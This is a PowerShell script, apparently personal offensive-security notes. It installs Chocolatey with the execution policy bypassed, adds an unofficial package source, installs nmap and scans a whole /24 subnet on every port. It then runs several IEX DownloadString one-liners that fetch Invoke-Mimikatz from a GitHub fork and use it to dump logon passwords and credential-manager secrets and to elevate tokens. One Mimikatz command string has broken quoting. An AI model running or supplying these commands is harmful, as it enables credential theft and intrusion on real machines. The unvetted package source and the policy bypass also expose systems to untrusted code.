 
#Install choco
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))

#Uppdate choco
choco upgrade chocolatey -y

#enable choco allowGlobalConfirmation
choco feature enable -n allowGlobalConfirmation

#add source to choco
choco source add -n=jshwa -s="https://jshwa.azurewebsites.net/api/v2"
choco source enable -n chocolatey

#install nmap via choco
choco install nmap -v -y

#restart ise
#############################################################################################

#Nmap
# Scan the network for open ports and services 
$scan = nmap -p 1-65535 -T4 -A -v 192.168.1.0/24

# Display the results of the Nmap scan
$scan.Hosts | Select-Object Address, Ports

#############################################################################################
#Mimikatz
#powershell -exec bypass
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/AddaxSoft/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1");Invoke-Mimikatz -DumpCreds
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/AddaxSoft/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command '"privilege:debug" token::elevate" "sekurlsa::credman" "exit"'
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/AddaxSoft/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1");Invoke-Mimikatz -Command 'sekurlsa::logonpasswords'

Get-Credential
